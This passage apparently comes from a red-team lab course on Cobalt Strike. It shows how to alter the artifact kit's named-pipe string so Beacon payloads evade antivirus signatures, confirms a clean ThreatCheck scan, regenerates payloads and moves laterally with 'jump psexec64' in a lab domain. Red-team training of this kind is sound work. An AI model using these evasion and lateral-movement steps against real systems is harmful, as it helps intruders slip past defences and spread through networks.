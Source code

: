   

We can get around this one from changing this:
```c
sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```
  

To something like this:
```
sprintf(pipename, "%c%c%c%c%c%c%c%c%crasta\\mouse", 92, 92, 46, 92, 112, 105, 112, 101, 92);
```
  

In most cases, it doesn't really matter what you change things to, as long as it's different (and still functional).  With that change, we finally have a clean artifact.
```
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
[+] No threat found!
[*] Run time: 0.72s
```
  Note that these specific examples may differ as signatures and the Beacon payload changes over time, but this methodology should always get you through.  Each artifact type will also likely have different signatures used to detect them that you'll need to work through.

  

To tell Cobalt Strike to use these new artifacts, we must load the aggressor script.  Go to _Cobalt Strike > Script Manager > Load_ and select the `artifact.cna` file in your output directory.  Any DLL and EXE payloads that you generate from hereon will use those new artifacts, so use _Payloads > Windows Stageless Generate All Payloads_ to replace all of your payloads in `C:\Payloads`.

We should now be able to move laterally to the file server using PsExec.
```
beacon> jump psexec64 fs.dev.cyberbotic.io smb
Started service 96126c2 on fs.dev.cyberbotic.io

[+] established link to child beacon: 10.10.122.15
```
  

Simply unload the CNA from the Script Manager if you want to revert back to the default payloads.